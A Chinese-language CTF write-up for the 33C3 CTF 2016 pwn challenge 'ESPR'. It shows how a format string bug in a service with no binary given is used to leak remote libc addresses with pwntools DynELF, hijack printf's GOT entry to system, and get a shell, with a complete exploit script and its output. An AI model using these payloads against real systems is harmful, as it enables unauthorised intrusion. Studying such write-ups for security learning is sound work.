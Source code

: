 ```yaml
---
title: '[33C3 CTF 2016] ESPR 150 '
author: bruce30262
tags:
  - pwn
  - format string
  - 33C3 CTF 2016
  - DynELF
  - GOT hijacking
categories:
  - write-ups
date: 2016-12-31 09:25:00
---
```

## Info  
> Category: pwn
> Point: 150
> Author: bruce30262 @ BambooFox

## Analyzing
這題沒有給任何的 binary，只有一張圖片，長得像這樣:
```
eat:                  sleep:
+-----------------+   +----------------+
| sub rsp, 0x100  |   | mov edi, 0x1   |
| mov rdi, rsp    |   | call _sleep    |
| call _gets      |   |                |
|                 |   |                |
+-----------------+   +----------------+
pwn:                  repeat:
+-----------------+   +----------------+
| mov rdi, rsp    |   |                |
| call _printf    |   | jmp eat        |
| add rsp, 0x100  |   |                |
|                 |   |                |
+-----------------+   +----------------+
```

hmmm......

可以發現到程式裡有兩個很明顯的漏洞: stack overflow 與 format string。這題 stack overflow 應該是打不了，因為有個無限迴圈在那邊，程式無法 return。因此這題的重點在於如何在沒有提供任何 binary 的情況下利用 format string 漏洞來 exploit 整個 service。 


## Exploit
在這裡不得不提 pwntools 裡頭一個相當強大的 module --- [DynELF](http://docs.pwntools.com/en/stable/dynelf.html)。透過 `DynELF` 以及程式當中的**任意讀漏洞**，pwntools 將有辦法幫助我們 leak 出遠端機器的 binary 資訊，包括 function 在 libc 中的位址，遠端 binary 的 `.dynamic` section 位址......等等。

要使用這個功能，首先我們必須提供一個 `leak` function，來讓 pwntools 有辦法透過這個 function leak 出任意位址的內容。這題的 `leak` function 可以透過程式當中的 format string 漏洞來實作:
```python leak
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2) # receive the rest of the string
    return ret
```

之後我們還必須提供一個 binary 裡頭的位址。透過輸入 `%30$p`，我們可以 leak 出遠端 binary 的 text address `0x40060d`。之後我們就可以透過 `DynELF` 來幫助我們 resolve 一些 libc 中的 function address。

首先我們會需要遠端的 `printf` 和 `system` 的 function address:
```python leak library addresses
d = DynELF(leak, 0x40060d)
system_addr = d.lookup('system', 'libc')
printf_addr = d.lookup('printf', 'libc')
​
log.success("printf_addr: "+hex(printf_addr))
log.success("system_addr: "+hex(system_addr))
```
因為每 leak 一次就要 sleep 一秒的關係，因此這邊 resolve 的過程會花些時間 ( pwntools 會需要 leak 出一堆 address 來 resolve function 的位址 )

```
[+] printf_addr: 0x7fb040a17550
[+] system_addr: 0x7fb040a066d0
```

有了遠端的 `printf` 和 `system` 的 address，我們就可以計算兩者之間的 offset，然後在下一次的連線中透過以下步驟來進行 exploit:
1. 先 leak 出 `printf@got.plt`，然後計算 `system` 的位址
2. 透過 format string 來 overwrite `printf` 的 GOT ( hijack 成 `system` )
3. 輸入 "sh"，執行 `system("sh")` 拿 shell

那麼該怎麼獲得 `printf`  GOT 的位址呢 ? 這裡我是先透過 `DynELF` 的 `dynamic` 功能來獲取 `.dynamic` section 的位址:
```python resolve .dynamic section
d = DynELF(leak, 0x40060d)
dynamic_ptr = d.dynamic
```

有了 `.dynamic` section 的位址，我們就可以透過 leak `.dynamic` section 的資訊來獲取 `.got.plt` 的位址:
```
Dynamic section at offset 0xe28 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x400400
 0x000000000000000d (FINI)               0x400614
 0x0000000000000019 (INIT_ARRAY)         0x600e10
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x600e18
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400298
 0x0000000000000005 (STRTAB)             0x400330
 0x0000000000000006 (SYMTAB)             0x4002b8
 0x000000000000000a (STRSZ)              68 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x601000  <--- here
```
```python resolve PLTGOT
cnt = 0
while True:
    addr = dynamic_ptr + 0x10*cnt
    ret = leak(addr)
    if ret == "\x03\x00": #TYPE PLTGOT
        addr += 8
        for i in xrange(8):
            ret = leak(addr+i)
            print "ret:", ret.encode('hex')
        break
    else:
        cnt += 1
```
最後，透過 leak 出所有的 GOT entry，我們可以藉由比對 function address 的低 24 bit 來判斷 `printf@got.plt` 的位址:
```python resolve printf@got.plt
got = 0x601000
for i in xrange(8):
    addr = got + i*8
    ret = leak(addr)
    print "ret:", ret.encode('hex')
```

這下該有的位址都有了，可以開始 exploit 了:

```python exp_espr.py
#!/usr/bin/env python
​
from pwn import *
import subprocess
import sys
import time
​
HOST = "78.46.224.86"
PORT = 1337
# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'
​
def leak(addr):
    payload = "%7$s.AAA"+p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    resp = r.recvuntil(".AAA")
    ret = resp[:-4:] + "\x00"
    print "ret:", repr(ret)
    r.recvrepeat(0.2)
    return ret
    
if __name__ == "__main__":
​
    r = remote(HOST, PORT)
​
    printf_got = 0x601018
    printf_addr = u64(leak(printf_got).ljust(8, "\x00"))
    system_addr = printf_addr - 0x10e80 # remote
​
    log.success("printf_addr: "+hex(printf_addr))
    log.success("system_addr: "+hex(system_addr))
​
    byte1 = system_addr & 0xff
    byte2 = (system_addr & 0xffff00) >> 8
    log.success("byte1: "+hex(byte1))
    log.success("byte2: "+hex(byte2))
​
    payload = "%" + str(byte1) + "c" + "%10$hhn."
    payload += "%" + str(byte2-byte1-1) + "c" + "%11$hn."
    payload = payload.ljust(32, "A")
    payload += p64(printf_got) + p64(printf_got+1)
    r.sendline(payload)
    r.sendline("sh\x00")
    r.interactive()
```
​
flag: `33C3_f1rst_tshirt_challenge?!`



